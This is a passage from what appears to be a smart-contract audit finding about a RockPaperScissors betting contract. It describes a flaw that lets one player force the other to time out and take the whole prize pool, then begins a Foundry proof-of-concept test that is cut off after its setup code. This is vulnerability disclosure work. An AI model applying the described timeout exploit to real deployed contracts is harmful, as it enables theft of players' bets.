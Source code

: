 Overall, hacker can use this vulnerability to win the all games which has one more turns.

## Impact

This vulnerability has severe consequences:

1. **Game Manipulation**: A malicious player can always win the game by exploiting this vulnerability
2. **Funds Loss**: The victim loses their entire bet amount
3. **Broken Game Mechanics**: The core gameplay mechanics are completely broken
4. **No Fair Play**: The game becomes unplayable as one player can always force a win

The POC demonstrates that Player B can win the game by forcing Player A to timeout, resulting in Player B receiving the entire prize pool minus fees.

## POC

PoC in Foundry as follows:

```solidity
contract RockPaperScissorsTest is Test {
    // Contracts
    RockPaperScissors public game;
    WinningToken public token;

    // Test accounts
    address public admin;
    address public playerA;
    address public playerB;

    // Test constants
    uint256 constant BET_AMOUNT = 0.1 ether;
    uint256 constant TIMEOUT = 10 minutes;
    uint256 constant TOTAL_TURNS = 3; // Must be odd

    // Game ID for tests
    uint256 public gameId;

    // Setup before each test
    function setUp() public {
        // Set up addresses
        admin = address(this);
        playerA = makeAddr("playerA");
        playerB = makeAddr("playerB");

        // Fund the players
        vm.deal(playerA, 10 ether);
        vm.deal(playerB, 10 ether);

        // Deploy contracts
        game = new RockPaperScissors();
        token = WinningToken(game.winningToken());

        // Mint some tokens for players for token tests
        vm.prank(address(game));
        token.mint(playerA, 10);

        vm.prank(address(game));
        token.mint(playerB, 10);
    }

    function test_RevealStopCommit() public {
        // console the balance of playerA and playerB
        console.log("playerA balance : ", playerA.balance);
        console.log("playerB balance : ", playerB.balance);
```